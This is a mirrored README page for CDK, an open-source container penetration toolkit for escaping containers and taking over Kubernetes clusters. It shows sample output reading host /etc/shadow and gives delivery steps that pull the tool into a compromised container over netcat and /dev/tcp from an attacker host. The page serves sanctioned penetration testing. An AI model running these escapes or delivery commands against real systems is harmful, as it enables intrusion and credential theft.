

repository: ProbiusOfficial/Better_StarLink · page: detail/CDK/index.html · generator: mkdocs

## CDK <https://github.com/cdk-team/CDK>
<!--auto_detail_badge_begin_0b490ffb61b26b45de3ea5d7dd8a582e-->
![Language](https://img.shields.io/badge/Language-Golang-blue)
![Author](https://img.shields.io/badge/Author-cdkteam-orange)
![GitHub stars](https://img.shields.io/github/stars/cdk-team/CDK.svg?style=flat&logo=github)
![Version](https://img.shields.io/badge/Version-V1.5.2-red)
![Time](https://img.shields.io/badge/Join-20210223-green)
<!--auto_detail_badge_end_fef74f2d7ea73fcc43ff78e05b1e7451-->

# CDK - Zero Dependency Container Penetration Toolkit

English | [简体中文](https://github.com/cdk-team/CDK/wiki/CDK-Home-CN)

![png](https://user-images.githubusercontent.com/7868679/177925206-8d83dc95-0f2f-4d61-9a45-0d43b1b0468f.png)

## Legal Disclaimer

Usage of CDK for attacking targets without prior mutual consent is illegal.
CDK is for security testing purposes only.

## Overview

CDK is an open-sourced container penetration toolkit, designed for offering stable exploitation in different slimmed containers without any OS dependency. It comes with useful net-tools and many powerful PoCs/EXPs and helps you to escape container and take over K8s cluster easily.

## Quick Start

Run **`cdk eva`** to get evaluate info and a recommend exploit, then run **`cdk run`** to start the attack.

```
> ./cdk eva --full

[*] Maybe you can exploit the *Capabilities* below:
[!] CAP_DAC_READ_SEARCH enabled. You can read files from host. Use 'cdk run cap-dac-read-search' ... for exploitation.
[!] CAP_SYS_MODULE enabled. You can escape the container via loading kernel module. More info at https://xcellerator.github.io/posts/docker_escape/.
Critical - SYS_ADMIN Capability Found. Try 'cdk run rewrite-cgroup-devices/mount-cgroup/...'.
Critical - Possible Privileged Container Found.

> ./cdk run cap-dac-read-search

Running with target: /etc/shadow, ref: /etc/hostname
ubuntu:$6$*******:19173:0:99999:7:::
root:*:18659:0:99999:7:::
daemon:*:18659:0:99999:7:::
bin:*:18659:0:99999:7:::
```

## Installation/Delivery

Download latest release in https://github.com/cdk-team/CDK/releases/

Drop executable files into the target container and start testing.

### TIPS: Deliver CDK into target container in real-world penetration testing

If you have an exploit that can upload a file, then you can upload CDK binary directly.

If you have a RCE exploit, but the target container has no `curl` or `wget`, you can use the following method to deliver CDK:

1. First, host CDK binary on your host with public IP.
```
(on your host)
nc -lvp 999 < cdk
```

2. Inside the victim container execute
```
cat < /dev/tcp/(your_public_host_ip)/(port) > cdk
chmod a+x cdk
```

## Usage
```
Usage:
  cdk evaluate [--full]
  cdk run (--list | <exploit> [<args>...])
  cdk <tool> [<args>...]

Evaluate:
  cdk evaluate                              Gather information to find weakness inside container.
  cdk evaluate --full                       Enable file scan during information gathering.

Exploit:
  cdk run --list                            List all available exploits.
  cdk run <exploit> [<args>...]             Run single exploit, docs in https://github.com/cdk-team/CDK/wiki

Auto Escape:
  cdk auto-escape <cmd>                     Escape container in different ways then let target execute <cmd>.

Tool:
  vi <file>                                 Edit files in container like "vi" command.
  ps                                        Show process information like "ps -ef" command.
  nc [options]                              Create TCP tunnel.
  ifconfig                                  Show network information.
  kcurl <path> (get|post) <uri> <data>      Make request to K8s api-server.
  ectl <endpoint> get <key>                 Unauthorized enumeration of ectd keys.
  ucurl (get|post) <socket> <uri> <data>    Make request to docker unix socket.
  probe <ip> <port> <parallel> <timeout-ms> TCP port scan, example: cdk probe 10.0.1.0-255 80,8080-9443 50 1000

Options:
  -h --help     Show this help msg.
  -v --version  Show version.
```
